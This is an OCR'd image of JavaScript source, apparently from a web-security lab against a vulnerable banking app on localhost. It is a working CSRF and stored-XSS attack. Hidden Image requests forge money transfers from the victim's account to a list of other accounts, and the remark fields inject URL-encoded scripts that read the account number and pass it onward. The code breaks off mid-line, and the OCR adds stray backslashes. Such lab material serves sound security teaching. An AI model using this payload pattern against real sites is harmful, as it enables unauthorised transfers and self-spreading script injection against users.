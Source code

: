  console.log(queryString);

 const urlParams \= new URLSearchParams(queryString);

 const accountNo \= urlParams.get('x');

 console.log(accountNo);

 const allAccounts \= 

 \[11111111, 22222222, 33333333, 44444444, 55555555,

 66666666, 77777777, 88888888, 99999999\];

 function getURL() {

 allAccounts.forEach(function (destAccount) {

 if (destAccount != accountNo) {

 var varName \= new Image();

 varName.src \= "http://localhost/htdocs/

 index.php?page\=htbtransfer&srcacc\=" + 

 accountNo + "&dstbank=41131337&dstacc="

 + destAccount +

 "&amount=1.1&remark=%3Cscript%3Evar+x

 +%3D+document.getElementsByName%28

 %22account%22%29%5B0%5D.value%3C%2Fscript%3E&htbtransfer\=Transfer";

 document.getElementById('images')

 .appendChild(varName);

  

 var funcName \= new Image();

 funcName.src \= "http://localhost/htdocs/index.php?page

 \=htbtransfer&srcacc\=" + accountNo + "&dstbank

 \=41131337&dstacc\=" + destAccount + "&amount

 \=1.2&remark\=%3Cscript%3Efunction+

 y%28%29%7Bwindow.open%28%22http%3A%2F%2Flocalhost%2Fhtdocs

 %2Ferror.html%3Fx%3D%22%2Bx

 %2C+%22\_blank%22%29%3B%7D%3C%2Fscript%3E&htbtransfer\=Transfer";

 document.getElementById('images').appendChild(funcName);

  

 var executeFunction \= new Image();

 executeFunction.src \= "http://localhost/htdocs/index.php?page\=

 htbtransfer&srcacc\="+ accountNo + "
